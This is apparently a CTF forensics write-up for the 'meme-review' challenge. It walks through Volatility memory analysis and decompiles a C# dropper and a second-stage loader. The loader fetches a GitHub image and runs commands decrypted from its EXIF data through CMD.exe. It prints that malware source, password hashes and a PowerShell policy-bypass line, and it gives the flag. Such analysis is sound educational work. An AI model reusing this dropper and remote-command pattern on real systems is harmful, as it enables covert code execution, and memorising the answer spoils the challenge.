

# meme-review

[library.m0unt41n.ch/challenges/meme-review](https://library.m0unt41n.ch/challenges/meme-review)   

# TL;DR

> ***WARNING: THIS IS ACTIVE MALWARE WHICH CAN HARM YOUR COMPUTER. EXECUTE AT YOUR OWN RISK!***
> _My computer is always sooooooo slow and our IT department said that my computer from 2004 is_
> _almost brand new and it could do a few years more. Well I decided to taking matters into my_
> _own hands and just install more ram from the internet._<br>
> _Now the security dudes told my that im browsing some nice memes on github, but the memes are_
> _a little sus. I have no idea what a github is and what memes I was watching. Can you help me_
> _out and find out what they mean?_<br>
> _(Hint: Use `Win10x86_19041`)_

A Windows image, with a running C# binary that, once decompiled, has another embedded, encrypted
C# binary. Which, in turn, pulls image from GitHub and decrypts its EXIF metadata into secret
strings &#128578;

# Analyzing the image with Volatility

I used [Volatiliy 2.6.1](https://github.com/volatilityfoundation/volatility) (custom build, with
self-compiled Python 2). Some useful links:

*   [Command Reference](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference)
*   [iForensic : Extracting files from MFT Table with Volatility (Part 2)](https://steemit.com/security/@nybble/forensic-extracting-files-from-mft-table-with-volatility-part-2-en)
*   [How to Use Volatility for Memory Forensics and Analysis](https://www.varonis.com/blog/how-to-use-volatility)
*   [Memory Dump Analysis | Kali Linux](https://dev.to/mihika/memory-dump-analysis-kali-linux-4id3)

## Users

```
$ vol -f image.raw --profile Win10x86_19041 hashdump
Volatility Foundation Volatility Framework 2.6.1
Administrator:500:d95b2c245925654b68d9e36141485568:f0b49b5ea8d93489b0a2f3e31d889890:::
Guest:501:e7aff0375bbb4da7ff7fceba0eaf4a61:5f66ece35e5d7d8bc0c72adb80023f2c:::
DefaultAccount:503:0662f59a16a363648d80f38d67c824af:15dae59113b2ee2d173624782b8071bd:::
WDAGUtilityAccount:504:be8ff8adbd14d96f4faa5fef1c56c965:6897a73f2a3aae81debe0108b1e9c9cf:::
bruh:1001:3cc3c2b7c5ce8a6d757206624562a782:2478e4a288897d3aa4ac6b227c7dc69f:::
```

[Hashcat](https://hashcat.net/hashcat) + [rockyou2024.txt](https://www.google.com/search?q=rockyou2024)
did not find much there though.

## Processes

Some things seem very related to the challenge text:

```
$ vol -f image.raw --profile Win10x86_19041 cmdline
Volatility Foundation Volatility Framework 2.6.1
(...)
************************************************************************
install_ram.ex pid:   3044
Command line : "C:\Users\bruh\Downloads\install_ram.exe" 
```

```
$ vol -f image.raw --profile Win10x86_19041 pstree
Volatility Foundation Volatility Framework 2.6.1
Name                           Pid  PPid Thds Hnds Time
------------------------------ ---- ---- ---- ---- ----------------------------
(...)
 0x91ff35c0:winlogon.exe        620  508    7    0 2023-01-20 20:17:25 UTC+0000
. 0x97965680:dwm.exe            988  620   22    0 2023-01-20 20:17:26 UTC+0000
. 0xa0490040:userinit.exe      3544  620    0 ---- 2023-01-20 20:17:34 UTC+0000
.. 0xa5c13040:explorer.exe     3568 3544   74    0 2023-01-20 20:17:35 UTC+0000
... 0xab93c100:vmtoolsd.exe    5724 3568   13    0 2023-01-20 20:17:56 UTC+0000
... 0xa5c147c0:Dumpit.exe      1172 3568    3    0 2023-01-20 20:18:51 UTC+0000
.... 0xa5c126c0:conhost.exe    1232 1172    6    0 2023-01-20 20:18:51 UTC+0000
... 0xab938740:SecurityHealth  5612 3568    6    0 2023-01-20 20:17:55 UTC+0000
... 0xa5ca6840:install_ram.ex  3044 3568   11    0 2023-01-20 20:18:45 UTC+0000
.... 0x9d039880:conhost.exe    5848 3044    6    0 2023-01-20 20:18:45 UTC+0000
.... 0xa5d39800:ntvdm.exe      4888 3044    0 ---- 2023-01-20 20:18:45 UTC+0000
... 0xa04fb040:OneDrive.exe    5788 3568   29    0 2023-01-20 20:17:57 UTC+0000
. 0x978bc680:fontdrvhost.ex     812  620    6    0 2023-01-20 20:17:25 UTC+0000
```

## Files

Some related (or otherwise suspicious) files:

```
$ vol -f image.raw --profile Win10x86_19041 filescan
Volatility Foundation Volatility Framework 2.6.1
Offset(P)          #Ptr #Hnd Access Name
------------------ ---- ---- ------ ----
(...)
0x00000000a03220d0    8    0 R--rwd \Device\HarddiskVolume2\Windows\Temp\vmware-vmtoolsd-bruh.log
0x00000000a181e7d0   25    1 -W-rw- \Device\HarddiskVolume2\Windows\Temp\vmware-vmusr-bruh.log
(...)
0x00000000a0257290    8    0 R--rw- \Device\HarddiskVolume2\Users\bruh\AppData\Local\Microsoft\OneDrive\settings\Personal\logUploaderSettings.ini
0x00000000a0258e68    7    0 R--rwd \Device\HarddiskVolume2\Users\bruh\AppData\Local\Microsoft\OneDrive\logs\Personal\general.keystore
0x00000000a0258e68    7    0 R--rwd \Device\HarddiskVolume2\Users\bruh\AppData\Local\Microsoft\OneDrive\logs\Personal\general.keystore
(...)
0x00000000a03281d8    6    0 R--r-d \Device\HarddiskVolume2\Users\bruh\Downloads\Dumpit.exe
0x00000000afa768d0    1    0 R--r-d \Device\HarddiskVolume2\Users\bruh\Downloads\Dumpit.exe
0x00000000ab988050    9    1 RW-rw- \Device\HarddiskVolume2\Users\bruh\Downloads\DESKTOP-LUGCN9E-20230120-201851.raw
(...)
0x00000000a1818878    1    0 R--r-d \Device\HarddiskVolume2\Users\bruh\Downloads\install_ram.exe
0x00000000ab97e510    1    0 R--r-d \Device\HarddiskVolume2\Users\bruh\Downloads\install_ram.exe
0x00000000ab986c10    6    0 R--r-d \Device\HarddiskVolume2\Users\bruh\Downloads\install_ram.exe
0x00000000ab961d10    8    0 R--rwd \Device\HarddiskVolume2\Users\bruh\AppData\Local\Microsoft\Windows\Safety\shell\remote\script_68842557679894740604610088474831951587.rel.v2
0x00000000ab961d10    8    0 R--rwd \Device\HarddiskVolume2\Users\bruh\AppData\Local\Microsoft\Windows\Safety\shell\remote\script_68842557679894740604610088474831951587.rel.v2
(...)
0x00000000ab946b60    7    0 R--r-d \Device\HarddiskVolume2\Users\bruh\AppData\Local\Packages\Microsoft.Windows.Search_cw5n1h2txyewy\AC\AppCache\DC5WGYWU\7\C__Windows_SystemApps_Microsoft.Windows.Search_cw5n1h2txyewy_cache_Desktop_2[1].txt
0x000000009783c3c0    8    0 R--r-- \Device\HarddiskVolume2\Users\bruh\AppData\Roaming\Microsoft\Windows\Themes\CachedFiles\CachedImage_1024_768_POS4.jpg
0x00000000ab94de20    2    0 R--rwd \Device\HarddiskVolume2\Users\bruh\AppData\Local\Microsoft\Windows\Burn\Burn\desktop.ini
```

### `general.keystore`

These files can be dumped with `vol -f image.raw --profile Win10x86_19041 mftparser` and they have things like:

```
[{"CreatedTime".:.1674149780,"Key".:."JYqpenGnqM5K\/SgEPOW1VS\/aqTuAUrp3B+B\/yD7LVhI=\u0000\u0000","Version".:.1rings}]
```

### More files from MFT

`vol mftparser` output actually has few other interesting things

```
(... )Users\bruh\AppData\Local\MICROS~1\CLR_v4.0_32\USAGEL~1\legit-build.exe.log

$DATA
0000000000: 31 2c 22 66 75 73 69 6f 6e 22 2c 22 47 41 43 22   1,"fusion","GAC"
0000000010: 2c 30 0d 0a 31 2c 22 57 69 6e 52 54 22 2c 22 4e   ,0..1,"WinRT","N
0000000020: 6f 74 41 70 70 22 2c 31 0d 0a 33 2c 22 53 79 73   otApp",1..3,"Sys
0000000030: 74 65 6d 2c 20 56 65 72 73 69 6f 6e 3d 34 2e 30   tem,.Version=4.0
0000000040: 2e 30 2e 30 2c 20 43 75 6c 74 75 72 65 3d 6e 65   .0.0,.Culture=ne
0000000050: 75 74 72 61 6c 2c 20 50 75 62 6c 69 63 4b 65 79   utral,.PublicKey
0000000060: 54 6f 6b 65 6e 3d 62 37 37 61 35 63 35 36 31 39   Token=b77a5c5619
0000000070: 33 34 65 30 38 39 22 2c 22 43 3a 5c 57 69 6e 64   34e089","C:\Wind
0000000080: 6f 77 73 5c 61 73 73 65 6d 62 6c 79 5c 4e 61 74   ows\assembly\Nat
0000000090: 69 76 65 49 6d 61 67 65 73 5f 76 34 2e 30 2e 33   iveImages_v4.0.3
00000000a0: 30 33 31 39 5f 33 32 5c 53 79 73 74 65 6d 5c 39   0319_32\System\9
00000000b0: 32 30 65 33 64 31 64 37 30 34 34 37 63 33 63 31   20e3d1d70447c3c1
00000000c0: 30 65 36 39 65 36 64 66 30 37 36 36 35 36 38 5c   0e69e6df0766568\
00000000d0: 53 79 73 74 65 6d 2e 6e 69 2e 64 6c 6c 22 2c 30   System.ni.dll",0
00000000e0: 0d 0a                                             ..
```

Nothing obvious there though. And, from a quick Google search, `system.ni.dll` seems
surprisingly legit &#128578;

## More files

For even more data I also:

*   Dumped all cached files (`vol -f image.raw --profile Win10x86_19041 mftparser dumpfiles -n -D $DESTDIR`).
*   For Windows Event Logs (`*.evtx*`), dumped them in XML format, using [python-evtx](https://github.com/williballenthin/python-evtx).
*   Dumped all loaded executables (`vol -f image.raw --profile Win10x86_19041 memdump -D $DESTDIR`)

Some more interesting things found there:

*   `file.1156.0x9d0c3950.Windows PowerShell.evtx.vacb`

    ```
    HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; &amp; 'C:\Users\bruh\Downloads\install_more_ram.ps1'
    HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell_ise.exe C:\Users\bruh\Downloads\install_more_ram.ps1
    HostApplication=powershell.exe -ExecutionPolicy Restricted -Command Write-Host 'Final result: 1';
    ```

*   `strings file.3960.0x9782b6d8.ActivitiesCache.db* | grep bruh`

    ```
    c:\users\bruh\downloads\dumpit.exe
    C:\\Users\\bruh\\Downloads\\DumpIt.exe
    c:\users\bruh\downloads\install_more_ram.exe
    c:\users\bruh\downloads\legit-build.exe
    C:\\Users\\bruh\\Downloads\\legit-build.exe
    ECB32AF3-1440-4086-94E3-5311F97F89C4\{Local Downloads}\install_more_ram.ps1
    ```

*   `file.1156.0x9d0c3950.Windows PowerShell.evtx.vacb`

    ```
    (...)
    HostApplication=powershell c:\Users\bruh\downloads\download_more_ram.ps1
    HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; &amp; 'C:\Users\bruh\Downloads\install_more_ram.ps1'
    HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell_ise.exe C:\Users\bruh\Downloads\install_more_ram.ps1
    ScriptName=C:\Users\bruh\Downloads\install_more_ram.ps1
    <UserData><ResolverFiredEvent xmlns="http://www.microsoft.com/Windows/Diagnosis/PCA/events"><ExePath>C:\Users\bruh\Downloads\legit-build.exe</ExePath>
    <UserData><ResolverFiredEvent xmlns="http://www.microsoft.com/Windows/Diagnosis/PCA/events"><ExePath>C:\Users\bruh\Downloads\install_more_ram.exe</ExePath>
    <ExecutablePath>C:\Users\bruh\Downloads\install_more_ram.exe</ExecutablePath>
    ```

# Decompiling the suspicious process

## `install_ram.exe`

In any case, `install_ram.exe` is the most suspicious thing of all above. It was in the output
of `dumpfiles`, as `file.3044.0xa6304a00.install_ram.exe.img`. It is a small Mono assembly and,
with [ILSpy](https://github.com/icsharpcode/ILSpy/releases), it decompiles to a rather short
[InstallRam.cs](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/forensics/meme-review/InstallRam.cs):

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Threading;

private static void Main(string[] args) {}
    int[] array = new int[6656] {
        77, 90, 144, 0, 3, 0, 0, 0, 4, 0,
        0, 0, 255, 255, 0, 0, 184, 0, 0, 0,
        0, 0, 0, 0, 64, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
        128, 0, 0, 0, 14, 31, 186, 14, 0, 180,
        9, 205, 33, 184, 1, 76, 205, 33, 84, 104,
        105, 115, 32, 112, 114, 111, 103, 114, 97, 109,

        (...)

        0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0, 0
    };
    for (int i = 0; i <= 255; i++) {
        for (int j = 0; j <= 255; j++) {
            string text = "";
            int num = 0;
            for (num = 0; num <= array.Length - 1; num++) {
                int num2 = array[num] ^ j;
                char c = (char)num2;
                text += c;
            }
            if (text.Contains("!This program cannot be run in DOS mode.")) {
                Console.WriteLine(num);
                string text2 = "C:\\temp\\legit-svc.exe";
                BinaryWriter binaryWriter = new BinaryWriter(new FileStream(text2, FileMode.Create));
                binaryWriter.Write(text);
                binaryWriter.Close();
                Process.Start(text2);
                File.Delete(text2);
                Thread.Sleep(50000);
                Environment.Exit(0);
            }
        }
    }
}
```

It tries to decrypt the 6656-byte array with all possible 1-byte XOR keys. If the output contains
a signature, it is written to `C:\temp\legit-svc.exe`, executed, deleted and the program quits.

I copied that table into [InstallRam.py](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/forensics/meme-review/InstallRam.py) script, doing the same and
got the output file.

## `legit_svc.exe`

This is a Mono assembly too! And ILSpy can deal with it as well, producing [LegitSvc.cs](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/forensics/meme-review/LegitSvc.cs):

```csharp
using System;
using System.Diagnostics;
using System.Drawing;
using System.Drawing.Imaging;
using System.IO;
using System.Linq;
using System.Net;
using System.Security.Cryptography;
using System.Text;
using System.Threading;
using System.Windows.Forms;

internal class LegitSvc {
    public static class StringCipher {
        private const int Keysize = 256;
        private const int DerivationIterations = 1000;

        public static string Encrypt(string plainText, string passPhrase) {
            byte[] array = Generate256BitsOfRandomEntropy();
            byte[] array2 = Generate256BitsOfRandomEntropy();
            byte[] bytes = Encoding.Default.GetBytes(plainText);
            using Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(passPhrase, array, 1000);
            byte[] bytes2 = rfc2898DeriveBytes.GetBytes(32);
            using RijndaelManaged rijndaelManaged = new RijndaelManaged();
            rijndaelManaged.BlockSize = 256;
            rijndaelManaged.Mode = CipherMode.CBC;
            rijndaelManaged.Padding = PaddingMode.PKCS7;
            using ICryptoTransform transform = rijndaelManaged.CreateEncryptor(bytes2, array2);
            using MemoryStream memoryStream = new MemoryStream();
            using CryptoStream cryptoStream = new CryptoStream(memoryStream, transform, CryptoStreamMode.Write);
            cryptoStream.Write(bytes, 0, bytes.Length);
            cryptoStream.FlushFinalBlock();
            byte[] first = array;
            first = first.Concat(array2).ToArray();
            first = first.Concat(memoryStream.ToArray()).ToArray();
            memoryStream.Close();
            cryptoStream.Close();
            return Convert.ToBase64String(first);
        }

        public static string Decrypt(string cipherText, string passPhrase) {
            byte[] array = Convert.FromBase64String(cipherText);
            byte[] salt = array.Take(32).ToArray();
            byte[] rgbIV = array.Skip(32).Take(32).ToArray();
            byte[] buffer = array.Skip(64).Take(array.Length - 64).ToArray();
            using Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(passPhrase, salt, 1000);
            byte[] bytes = rfc2898DeriveBytes.GetBytes(32);
            using RijndaelManaged rijndaelManaged = new RijndaelManaged();
            rijndaelManaged.BlockSize = 256;
            rijndaelManaged.Mode = CipherMode.CBC;
            rijndaelManaged.Padding = PaddingMode.PKCS7;
            using ICryptoTransform transform = rijndaelManaged.CreateDecryptor(bytes, rgbIV);
            using MemoryStream stream = new MemoryStream(buffer);
            using CryptoStream stream2 = new CryptoStream(stream, transform, CryptoStreamMode.Read);
            using StreamReader streamReader = new StreamReader(stream2, Encoding.Default);
            return streamReader.ReadToEnd();
        }

        private static byte[] Generate256BitsOfRandomEntropy() {
            byte[] array = new byte[32];
            using RNGCryptoServiceProvider rNGCryptoServiceProvider = new RNGCryptoServiceProvider();
            rNGCryptoServiceProvider.GetBytes(array);
            return array;
        }
    }

    private static void protect() {
        string layoutName = InputLanguage.CurrentInputLanguage.LayoutName;
        if (layoutName != "de-CH-pleasenorun") {
            Environment.Exit(0);
        }
    }

    private static void Main(string[] args) {
        protect();
        while (true) {
            Thread.Sleep(2000);
            using WebClient webClient = new WebClient();
            ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
            byte[] buffer = webClient.DownloadData("https://raw.githubusercontent.com/00xNULL/meme_review/main/meme.jpg");
            using MemoryStream stream = new MemoryStream(buffer);
            using Image image = Image.FromStream(stream);
            PropertyItem[] propertyItems = image.PropertyItems;
            ASCIIEncoding aSCIIEncoding = new ASCIIEncoding();
            string @string = aSCIIEncoding.GetString(propertyItems[0].Value);
            string string2 = aSCIIEncoding.GetString(propertyItems[1].Value);
            @string = @string.Remove(@string.Length - 1);
            byte[] bytes = Convert.FromBase64String(@string);
            @string = Encoding.Default.GetString(bytes);
            string text = StringCipher.Decrypt(@string, string2);
            Process.Start("CMD.exe", "/C " + text + " && pause");
        }
    }
}
```

This one is more complicated. It runs a loop where, every 2 seconds:

*   Downloads
    [https://raw.githubusercontent.com/00xNULL/meme_review/main/meme.jpg](https://raw.githubusercontent.com/00xNULL/meme_review/main/meme.jpg)
*   That image has two Base64 strings embedded as EXIF metadata:
    *   `Model`: used as encryption password
    *   `Make`: contains a combo of salt / IV / ciphertext.
*   All that is passed to `Decrypt()` routine, which is a somewhat regular AES decryption.
*   Result of the decryption is executed with `cmd`.

Additional notes:

*   There is a corresponding `Encrypt()`, but it is not used
*   Check out the `protect()` function &#128521; (prevents the program from running unless a very
    specific keyboard layout is active)

# Getting the flag

First, I rewrote the important parts of `legit_svc.cs` as a Python script
[decrypt.py](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/forensics/meme-review/decrypt.py), using model / make from above JPG file:

```python
from base64 import b64decode
from hashlib import pbkdf2_hmac
from py3rijndael import RijndaelCbc, Pkcs7Padding

exif_make = "YklwRWJKb2Vvelc5ZStIek1sdXJkWmRzeUxwc2x2cVhxSVlZZWRsVzhlT2JaR2FuaWFCTmhsSmtVN1pZUWFCa1FLMkV6eXErRkxSTTVHMnZibXovMlpNTUV0eitab1lLSGkxdGZ6cUpLYXR6OURPdy9GM0FhSDZMZUFKWjB2bGs="
exif_model = "lettuce"

cipherText = b64decode(exif_make).decode('ascii')
passPhrase = exif_model

array = b64decode(cipherText)
salt = array[0:32]
rgbIV = array[32:64]
buffer = array[64:]

inp = pbkdf2_hmac('sha1', bytes(passPhrase, 'ascii'), salt, 1000, 32)
text = RijndaelCbc(inp, rgbIV, padding=Pkcs7Padding(32), block_size=32).decrypt(buffer)
print("CMD.exe /C "+text.decode('ascii')+" && pause")
```

That prints `CMD.exe /C echo lasagne && pause`. That's not a password though &#128578;

>   Note that I had to use non-standard [py3rijndael](http://github.com/meyt/py3rijndael)
>   module from Pip, as the built-in AES does not allow 32-byte block size.

## More images!

The infinite loop in `legit_svc.exe` suggests that there might be more images. Like, more
commits &#128578; And [indeed](https://github.com/00xNULL/meme_review/commits/main/):

*   **2023-01-20 08:34**: Commit: [f09ea6d](https://github.com/00xNULL/meme_review/commit/f09ea6df68a59007e321d1a20a927899964933c5), [image link](https://raw.githubusercontent.com/00xNULL/meme_review/f09ea6df68a59007e321d1a20a927899964933c5/meme.jpg)
*   **2023-01-20 08:35**: Commit: [7326a27](https://github.com/00xNULL/meme_review/commit/7326a27614d269ab7d104e2b265885f5cbbb3a1a), [image link](https://raw.githubusercontent.com/00xNULL/meme_review/7326a27614d269ab7d104e2b265885f5cbbb3a1a/meme.jpg)
*   **2023-01-20 08:35**: Commit: [9ea18e8](https://github.com/00xNULL/meme_review/commit/9ea18e840f91a9aac8f691840d833e95b24af45d), [image link](https://raw.githubusercontent.com/00xNULL/meme_review/9ea18e840f91a9aac8f691840d833e95b24af45d/meme.jpg)
*   **2023-01-20 08:35**: Commit: [d64fd3a](https://github.com/00xNULL/meme_review/commit/d64fd3a5bfd45d9611a31b857fbd18c63ef50113), [image link](https://raw.githubusercontent.com/00xNULL/meme_review/d64fd3a5bfd45d9611a31b857fbd18c63ef50113/meme.jpg)

Looking at EXIFs from these images, we see **different** make/model every time. Using above script to decrypt the secrets in them, we get respectively:

*   [f09ea6d](https://raw.githubusercontent.com/00xNULL/meme_review/f09ea6df68a59007e321d1a20a927899964933c5/meme.jpg):
    *   Make: `WkpYd3hoQUlMOFArL01wWGx5cVBkOVRBTi9xMENjbllvUVNxUFBYVGZ1MVMxZ1k5eU1JS2lBTTJWcE0yUmtINUxuK2FtbTkyVUk3RHdZUm8yenVLZUtIUUk3WEYveEZHWC9Hd1M3TXl1R042NVYwZ2NqVHFFSkdpSTJyUFlDSkI=`
    *   Model: `nanananana_batmaaaaaan`
    *   Command: `CMD.exe /C whoami && pause`
*   [7326a27](https://raw.githubusercontent.com/00xNULL/meme_review/7326a27614d269ab7d104e2b265885f5cbbb3a1a/meme.jpg):
    *   Make: `bDkxZENDb3B2RkFHS3Y2aHN2L282c3hiM3FEVDQveGhySlR5NXE5RGttWWcyUHkwSG11TExXQkw4ZEcxalcwNlk0SlY4RWNzT1BUMVpUb1BObEIxTXpVNjY2a0lCZUF5OFk1SVA5R2ppYWpraVVHMTVQL3puYW5MSGlCdVQyK3o=`
    *   Model: `lasagne`
    *   Command: `CMD.exe /C net use && pause`
*   [9ea18e8](https://raw.githubusercontent.com/00xNULL/meme_review/9ea18e840f91a9aac8f691840d833e95b24af45d/meme.jpg):
    *   Make: `TVAwRHIwcGNkZmhZajJmek1kUWUvWjZWcE5RR283YVVESEMzRERtb0cxWHZXSG0vN1BlN2lPSCt3c3d0dHlRSkR2YXF2ZFBYdXBnNzdhK3FWMHFLcXphN05meWRmY3VFZVVnck85TEpSTEErZ0c3eWhLV3cyQk5lTkVPbTh2WDlBZUtTdWNDVVVRQlh1VkM5L0w0dmFsdkpQWGVWQU5ZalgzTHlKSHQ0UjV3PQ==`
    *   Model: `reeeeeeeeeee`
    *   Command: **`CMD.exe /C echo shc2023{y0u_succ3ssfuly_revi3wed_th3_m3m3s} && pause`** &#128512;
*   [d64fd3a](https://raw.githubusercontent.com/00xNULL/meme_review/d64fd3a5bfd45d9611a31b857fbd18c63ef50113/meme.jpg):
    *   Make: `YklwRWJKb2Vvelc5ZStIek1sdXJkWmRzeUxwc2x2cVhxSVlZZWRsVzhlT2JaR2FuaWFCTmhsSmtVN1pZUWFCa1FLMkV6eXErRkxSTTVHMnZibXovMlpNTUV0eitab1lLSGkxdGZ6cUpLYXR6OURPdy9GM0FhSDZMZUFKWjB2bGs=`
    *   Model: `lettuce`
    *   Command: `CMD.exe /C echo lasagne && pause`

## Was there actually some active malware there?

I don't know &#128578; I tried running various files through online scanner and got results like this one:



... but that looks like false alarm to me.

---

## `shc2023{y0u_succ3ssfuly_revi3wed_th3_m3m3s}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
